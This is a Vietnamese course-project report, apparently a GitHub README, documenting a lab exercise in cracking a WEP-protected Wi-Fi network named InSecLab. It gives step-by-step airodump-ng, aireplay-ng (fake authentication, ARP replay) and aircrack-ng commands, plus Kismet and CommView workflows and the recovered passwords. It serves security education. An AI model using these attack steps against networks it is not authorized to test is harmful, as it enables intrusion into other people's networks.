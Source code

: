 # Báo cáo đồ án môn học
## 1. Môi trường thực hành
Cấu hình phần cứng: Laptop Dell Intel(R) Core i7-4510U 2.00GHz 8GB RAM

Card Wifi: TENDA-W311U+

Máy ảo: Kali Linux 2020
## 2. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```sh 
 $ airodump-ng wlan0mon
```
![Thu thập thông tin wifi lân cận](images/airodump-ng.png)

Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên

![alt](images/injection_test.png)

=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](images/fakeauth.png)

=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](images/solve.png)

- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 3. Sử dụng Kismet để Crack WEP

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet

![alt](images/kismet/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)

![alt](images/kismet/wifiinfo.png)
![alt](images/kismet/wifiinfo1.png)

- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**

![alt](images/kismet/kismetIVs.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV.pcap
```

Kết quả

![alt](images/kismet/res.png)

=> Pass wifi: ***1234567890***

## 4. Sử dụng CommView để Crack WEP
Sử dụng CommView để kiểm tra các mạng wifi xung quanh

![CommViewScan](images/Commview/scan.png)

Xem thông tin của mạng wifi InSecLab

![CommViewInfo](images/Commview/info.png)

Cấu hình để CommView bắt các gói tin của AP InSecLab và lưu vào file log

Cấu hình Channel để CommView bắt gói tin

![CommViewConfig](images/Commview/config1.png)

Cấu hình nơi lưu trữ file log

![CommViewConfig](images/Commview/config2.png)

Tiến hành bắt gói tin

![CommViewCapture](images/Commview/capturepacket.png)

Chúng ta sẽ bắt đủ gói tin để thu thập đủ số IV cần thiết để crack WEP. Trong CommView, sau khi thu thập đủ số gói tin ta sẽ xem nó dưới dạng log

![CommViewLog](images/Commview/log.png)

- Tiến hành Export file log thành file pcapng

Sau đó chúng ta sẽ sử dụng lệnh sau để chuyển đổi file **pcapng** thành file **pcap**
```sh
 $ tshark -F pcap -r raw.pcapng -w CaptureIV.pcap
```
Thực hiện crack sử dụng **aircrack-ng**
```sh
 $ aircrack-ng CaptureIV.pcap
```
Vì CommView bắt các gói tin dựa trên 1 channel cụ thể (do mình chỉ định hoặc có thể bắt các gói tin trên mọi channel) nên trong gói tin **pcap** không chỉ hiển thị AP mà ta muốn Crack mà còn rất nhiều AP khác chạy cùng channel với channel của AP muốn Crack. Nên chúng ta phải chọn tên của AP muốn Crack để **aircrack-ng** thực hiện nhiệm vụ.

Kết quả sau khi chạy lệnh trên

![CommViewRes](images/Commview/res.png)

=> Mật khẩu: ***chudt***

